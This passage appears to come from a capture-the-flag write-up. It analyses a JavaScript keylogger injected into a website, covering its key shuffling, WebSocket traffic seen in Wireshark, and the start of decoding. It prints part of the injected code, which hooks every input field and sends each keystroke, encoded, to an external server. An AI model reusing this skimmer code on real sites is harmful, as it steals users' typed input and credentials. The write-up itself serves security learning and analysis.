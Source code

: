 ```js
    var message = navigator.userAgent;
    ws.send(encode(message, key));
    key2 = key.split("");
    shuffle(key2, rand(hash(message)));
    key2 = key2.join("");
  });

  Array.from(document.getElementsByTagName("input")).forEach(function(e) {
    e.addEventListener("keyup", function(v) {
      ws.send(encode(Math.random().toString().slice(2) + " " + v.key, key2));
    }, false);
  });

}, false);


```

We can see that communication *client-server* is encoded (`ws.send(encode(message, key))`) using two keys `key` and `key2`. Initially, our key is equal to `MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp` and then after some _shuffling_ it transforms to `key2`. Also, the first message sent via `sockets` is just client's `User-Agent` value, which is also used to transform the `key`. 

`User-Agent` is not a secret, because we can easily fetch it from `HTTP headers`.

> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36

To confirm that encode function returns the same encoded message as unmasked packet from `Wireshark` I evaluated `encode()` function with `User-Agent` value as the message and `MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp` as the key. As expected, the trial has succeeded.

> WebSocket: T4N8jgYZ5ChvnMJyKyAPCvwAcAmjAhVLt12DeE6SXJQxKsXyv3HL2xKXgASRLHpkDDYRxYQVJt1rNGH6KxyWkkK2gQep84LG33j5N1fzFaxDeXmKfcargKYanYq66KKs9U2XTWEerSwBMCPbsj7faMHQzSkNH

By looking at functions `hash`, `rand` and `shuffle` we see that there is no any randomization made or any desire of reversing them. I just use them to generate transformed `key2`. 

The attacker attached a *keylogger* on every input on the site, which is sending each pressed by user key to external server as an encoded message in form of `ws.send("{random} {input_key}", key2)`. 

I searched for `WebSockets` packets in `Wireshark` and I noticed that there are packets of three lengths: *~219*, *~63*, *~85*. First ones are encoded `User-Agent messages`, second - `pings` and the last ones are the ones I need - `user input`.

![websocket]

I dumped those packets into [sockets.txt]


### Decoding

In order to solve the task, we would like to decode at least the last character of the message. As mentioned already, we don't need to reverse anything except function `encode(msg, key)`. Let's have a closer look at it with removing unused parts.


[websocket]: <./files/websocket.png>
[packets]: <./files/packets.png>
[sockets.txt]: <./sockets.txt>
[logger.pcap]: <./files/logger.pcap>
[decoded]: <./files/decoded.png>
[credentials]: <./files/credentials.png>
[bundle.js]: <./files/bundle.js>
[injected.js]: <./injected.js>
[decoder.js]: <./decoder.js>
[decoder.html]: <./decoder.html>